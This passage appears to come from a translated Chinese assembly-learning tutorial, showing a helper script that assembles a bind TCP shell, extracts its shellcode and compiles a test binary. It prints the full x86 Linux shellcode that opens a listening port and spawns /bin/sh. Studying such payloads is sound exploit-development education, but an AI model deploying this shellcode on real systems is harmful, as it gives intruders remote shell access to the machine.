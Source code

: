 
# **编译**

我创建了一个简单的编译器 [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) 。使用它，我们可以:

*   将``bind-tcp-shell.nasm`'编译成二进制
*   从二进制文件中提取外壳代码以创建``shellcode.c``文件
*   使用“`gcc`”将“`shellcode.c`”编译成二进制文件

```
# python compilerX86.py -f bind-tcp-shell

[+] Assemble: bind-tcp-shell.nasm
[+] Linking: bind-tcp-shell.o
[+] Shellcode: "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\xb0\x66\xb3\x02\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80"
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

![](img/550d9b7b2bdd78bd6cd38c481ac22d0e.png)
